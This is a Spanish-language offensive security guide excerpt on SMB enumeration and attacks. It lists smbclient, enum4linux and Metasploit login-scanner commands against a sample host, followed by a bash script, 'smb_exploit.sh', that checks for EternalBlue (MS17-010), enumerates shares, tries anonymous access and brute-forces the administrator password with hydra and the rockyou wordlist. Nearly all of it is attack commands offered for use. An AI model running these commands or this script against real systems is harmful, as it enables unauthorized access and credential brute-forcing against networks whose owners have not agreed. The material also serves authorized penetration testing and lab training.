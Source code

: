 ### 2. SMB Enumeration y Ataques

```bash
# Enumeración básica
smbclient -L //192.168.1.100
enum4linux 192.168.1.100

# Acceso a shares
smbclient //192.168.1.100/ADMIN$ -U administrator
smbclient //192.168.1.100/C$ -U ""

# Con Metasploit
use auxiliary/scanner/smb/smb_login
set RHOSTS 192.168.1.100
set SMBUser administrator
set SMBPass password123
run
```

### 3. Script de Explotación SMB

```bash
#!/bin/bash
# smb_exploit.sh - Explotación automatizada SMB

TARGET=$1

if [ -z "$TARGET" ]; then
    echo "Uso: $0 <target>"
    exit 1
fi

echo "[+] Iniciando explotación SMB: $TARGET"

# 1. Verificar vulnerabilidad EternalBlue
echo "[+] Verificando MS17-010..."
nmap --script smb-vuln-ms17-010 $TARGET -p 445

# 2. Enumeración de shares
echo "[+] Enumerando shares..."
smbclient -L //$TARGET -N

# 3. Intentar acceso anónimo
echo "[+] Intentando acceso anónimo..."
smbclient //$TARGET/IPC$ -N -c "ls"

# 4. Fuerza bruta básica
echo "[+] Fuerza bruta básica..."
hydra -l administrator -P /usr/share/wordlists/rockyou.txt smb://$TARGET

echo "[+] Explotación SMB completada"
```
